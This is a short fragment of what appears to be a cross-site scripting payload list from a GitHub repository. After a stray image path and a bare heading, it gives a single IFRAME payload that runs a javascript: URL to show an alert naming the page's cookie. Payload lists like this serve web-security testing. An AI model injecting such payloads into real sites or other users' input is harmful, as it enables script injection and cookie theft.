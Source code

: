 #### yyy Payload List :

```

<!--        GitHub : https://github.com/ismailtasdelen/ -->






<IFRAME SRC="javascript:alert('Window.document.cookie');"></IFRAME>












